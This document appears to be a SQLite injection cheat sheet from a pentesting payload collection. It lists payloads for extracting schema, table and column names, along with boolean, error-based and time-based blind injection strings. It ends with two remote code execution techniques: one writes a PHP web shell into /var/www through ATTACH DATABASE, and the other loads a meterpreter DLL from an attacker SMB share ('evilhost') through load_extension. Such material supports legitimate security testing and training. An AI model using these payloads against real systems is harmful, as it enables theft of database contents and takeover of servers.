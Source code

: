 # SQLite Injection

## Summary

* [SQLite comments](#sqlite-comments)
* [SQLite version](#sqlite-version)
* [String based - Extract database structure](#string-based---extract-database-structure)
* [Integer/String based - Extract table name](#integerstring-based---extract-table-name)
* [Integer/String based - Extract column name](#integerstring-based---extract-column-name)
* [Boolean - Count number of tables](#boolean---count-number-of-tables)
* [Boolean - Enumerating table name](#boolean---enumerating-table-name)
* [Boolean - Extract info](#boolean---extract-info)
* [Boolean - Error based](#boolean---error-based)
* [Time based](#time-based)
* [Remote Command Execution using SQLite command - Attach Database](#remote-command-execution-using-sqlite-command---attach-database)
* [Remote Command Execution using SQLite command - Load_extension](#remote-command-execution-using-sqlite-command---load_extension)
* [References](#references)
## SQLite comments

```sql
--
/**/
```

## SQLite version

```sql
select sqlite_version();
```

## String based - Extract database structure

```sql
SELECT sql FROM sqlite_schema
```

## Integer/String based - Extract table name

```sql
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

## Integer/String based - Extract column name

```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```

For a clean output

```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

Cleaner output

```sql
SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');
```

## Boolean - Count number of tables

```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name

```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info

```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Boolean - Extract info (order by)

```sql
CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('some_char') THEN <order_element_1> ELSE <order_element_2> END
```

## Boolean - Error based

```sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
```

## Time based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```


## Remote Command Execution using SQLite command - Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

## Remote Command Execution using SQLite command - Load_extension

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

Note: By default this component is disabled

## References

[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
[SQLite Error Based Injection for Enumeration](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration/)
